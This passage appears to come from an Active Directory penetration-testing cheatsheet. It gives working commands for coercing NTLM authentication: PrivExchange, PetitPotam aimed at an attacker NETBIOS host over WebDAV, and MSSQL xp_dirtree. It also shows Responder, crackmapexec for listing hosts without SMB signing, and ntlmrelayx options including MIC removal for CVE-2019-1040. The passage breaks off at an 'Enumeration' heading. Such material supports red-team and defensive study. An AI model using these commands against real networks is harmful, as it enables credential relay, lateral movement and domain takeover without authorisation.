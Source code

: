 #### MSSQL Coerce

Everything is explained [here](https://github.com/p0dalirius/MSSQL-Analysis-Coerce/blob/main/README.md).

* MSSQL Server : with [xp\_dirtree](https://hideandsec.sh/books/cheatsheets-82c/page/active-directory#bkmrk-rbcd-from-mssql-serv).

#### PrivExchange

Coerce Exchange server authentication via **PushSubscription** (now patched):

```bash
python3.exe privexchange.py -ah attacker_IP <Exchange_server> -u user1 -p password -d domain.local
```

#### WebClient Service

If this service runs on the target machine, a SMB authentication can be switched into an HTTP authentication (really useful for NTLM relay).

Check if WebClient is running on machines:

```bash
GetWebDAVStatus.exe 'machine_ip'

#For multiple machines
webclientservicescanner domain.local/user1:password@10.10.10.0/24
```

If yes, coerce the authentication to the port 80 on the attacker IP. To bypass trust zone restriction, the attacker machine must be specified with a valid **NETBIOS name** and not its IP. The FQDN can be obtained with Responder in Analyze mode (Python tool).

```powershell
responder -I interface_to_use -A

#Coerce with PetitPotam for example
./PetitPotam.exe "attacker_NETBIOS@80/test.txt" <target_IP>
```

### NTLM and Kerberos relay

#### SMB without signing

Create a list of computer without SMB signing:

```bash
crackmapexec smb 10.10.10.0/24 --gen-relay-list list.txt
```

#### ntlmrelayx

If only SMBv2 is supported, `-smb2support` can be used. To attempt the remove the MIC if **NTLMv2** is vulnerable to **CVE-2019-1040**, `--remove-mic` can be used.

Multiple targets can be specified with `-tf list.txt`.

* Enumeration
